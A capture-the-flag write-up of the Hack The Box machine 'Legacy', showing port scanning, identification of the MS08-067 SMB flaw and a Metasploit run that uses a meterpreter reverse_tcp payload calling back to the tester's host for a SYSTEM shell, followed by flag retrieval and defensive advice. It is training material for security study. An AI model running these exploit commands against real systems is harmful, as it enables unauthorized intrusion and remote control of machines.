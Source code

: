 # HTB - Legacy

**IP Address:** `10.10.10.4`  
**OS:** Windows XP  
**Difficulty:** Easy  
**Tags:** #SMB, #MS08-067, #Metasploit, #Windows-Exploitation

---
## Synopsis

Legacy is an easy Windows machine running **Windows XP**, an outdated and unsupported operating system.  
The exploitation path takes advantage of the well-known **MS08-067** vulnerability in the SMB service, which allows remote code execution and direct system compromise.

---
## Skills Required

- Basic Windows service enumeration  
- Familiarity with Metasploit exploitation  

## Skills Learned

- Identifying vulnerable SMB versions  
- Exploiting the **MS08-067** RCE vulnerability with Metasploit  
- Gaining SYSTEM-level access on outdated Windows machines  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Verify if the host is alive using ICMP:

```bash
ping -c 1 10.10.10.4
```

![](screenshots/ping.png)

The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify exposed services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format

![](screenshots/allports.png)

Extract open ports:

```bash
extractPorts allPorts
```

![](screenshots/extractports.png)

---
### 1.3 Targeted Scan

Run a deeper scan with version detection and default scripts:

```bash
nmap -p135,139,445 -sC -sV 10.10.10.4 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let's check the result:

```bash
cat targeted -l java
```

![](screenshots/targeted.png)

**Findings:**

| Port | Service | Description                          |
|------|---------|--------------------------------------|
| 135  | MS RPC  | Microsoft RPC endpoint mapper        |
| 139  | NetBIOS | Legacy SMB session service           |
| 445  | SMB     | Microsoft Windows SMB file sharing   |

- The target OS is identified as **Windows XP**  
- SMB service is accessible, even for **guest** users  

---
## 2. Exploitation

Searching for known vulnerabilities affecting Windows XP SMB, we find **MS08-067**:  

🔗 [Microsoft Security Bulletin MS08-067](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15)  

This vulnerability allows **Remote Code Execution** via the SMB service.  
We exploit it using Metasploit:

```bash
msfconsole
search ms08_067
```

![](screenshots/msfconsole_ms08_067.png)

Configure and run the exploit:

``` bash
use exploit/windows/smb/ms08_067_netapi
set rhosts 10.10.10.4
set lhost 10.10.14.8
set lport 4444
set payload windows/meterpreter/reverse_tcp
exploit
```

![](screenshots/exploit_run.png)

✅ We obtain a shell with SYSTEM privileges.

---
## 3. Post-Exploitation

### 3.1 User Flag

The user flag is saved in `john` user inside the `Documents and Settings`directory:

```bash
type C:\Documents and Settings\john\Desktop\user.txt
```

![](screenshots/user_flag.png)

✅ **User flag obtained**

---
### 3.2 Root Flag

We are root, so we can go to `Administrator` directory for the root flag:

```bash
type C:\Documents and Settings\Administrator\Desktop\root.txt
```

![](screenshots/root_flag.png)

✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Detected SMB services on Windows XP  
2. **Vulnerability Identification** → MS08-067 SMB exploit available  
3. **Metasploit Exploitation** → Remote code execution as SYSTEM  
4. **Post-Exploitation** → Retrieved user and root flags  

---
## Defensive Recommendations

- **Decommission unsupported OS**: Windows XP is end-of-life and must be removed from production.  
- **Patch SMB vulnerabilities**: Apply security updates for SMB services (MS08-067).  
- **Network Segmentation**: Isolate legacy systems from the internet or sensitive networks.  
- **Monitor SMB traffic** for anomalous activity.
